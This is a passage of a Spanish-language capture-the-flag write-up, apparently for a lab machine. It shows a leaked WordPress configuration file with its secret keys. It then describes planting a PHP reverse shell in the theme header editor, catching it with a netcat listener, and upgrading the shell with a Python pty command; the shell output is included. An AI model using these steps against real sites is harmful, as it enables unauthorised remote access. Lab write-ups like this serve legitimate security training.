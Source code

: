 ````

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

wordpress;
define( 'WP_SITEURL', 'http://' .$_SERVER['HTTP_HOST'].'/wordpress');
define( 'WP_HOME', 'http://' .$_SERVER['HTTP_HOST'].'/wordpress');

/**#@+
 * Authentication Unique Keys and Salts.
 *
 * Change these to different unique phrases!
 * You can generate these using the {@link https://api.wordpress.org/secret-key/1.1/salt/ WordPress.org secret-key service}
 * You can change these at any point in time to invalidate all existing cookies. This will force all users to have to log in again.
 *
 * @since 2.6.0
 */
define( 'AUTH_KEY',         'zkY%m%RFYb:u,/lq-iZ~8fjENdIaSb=^k<3Zr/0DiLZqPxz|Auqli6lZ-9DRagJP' );
define( 'SECURE_AUTH_KEY',  'iAYak<_&~v9o+{b@RPR62R9 Ty- 6U-yH5baUD{;ndSiC[]qosxS@scu&S)d$H[T' );
define( 'LOGGED_IN_KEY',    'aPd_*sBf=Zuc++a]5Vg9=P~u03Q,zvp[eUe/})D=:NyhUY{KXR]t7}42Upk[r7?s' );
define( 'NONCE_KEY',        '@i;T({xV/fvE!s+^de7e4LX3}NT@ j;b4[z3_fFJbbW(no 3O7F@sx0!oy(O`h#M' );
define( 'AUTH_SALT',        'B AT@i
````
Tenemos una contraseña diferente ya, vamos a entrar al login exitosamente

## Reverse Shell

Dentro del editor del gestor de contenido en la parte de header he añadido una reverse shell en php de pentesmonkey: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) y he cambiado a mi ip (tun0)
seguidamente me he puesto por escuha con netcat

````bash
nc -lvnp 1234
````
````bash
nc -lvnp 1234                   
listening on [any] 1234 ...
connect to [10.9.3.53] from (UNKNOWN) [10.10.23.108] 48990
Linux ip-10-10-23-108 5.15.0-138-generic #148~20.04.1-Ubuntu SMP Fri Mar 28 14:32:35 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
 20:37:17 up  1:27,  0 users,  load average: 0.00, 0.01, 0.11
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ip-10-10-23-108:/$ 
````
## Escalada de privilegios - Crontab
